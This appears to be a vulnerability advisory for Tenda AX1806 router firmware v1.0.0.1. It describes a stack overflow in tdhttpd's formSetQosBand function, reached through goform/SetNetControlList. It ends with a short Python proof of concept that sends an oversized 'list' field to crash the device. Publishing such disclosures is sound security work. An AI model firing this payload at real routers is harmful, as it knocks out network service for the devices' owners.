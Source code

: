 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the `formSetQosBand` function, which can be accessed via the URL `goform/SetNetControlList`.  

<img src="img/image-20220526203615461.png" alt="image-20220526203615461" style="zoom:50%;" />

<img src="img/image-20220526203642063.png" alt="image-20220526203642063" style="zoom:50%;" />

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"list": b'A'*0x400+b'\n'
}
res = requests.post("http://127.0.0.1/goform/SetNetControlList", data=data)
print(res.content)
```

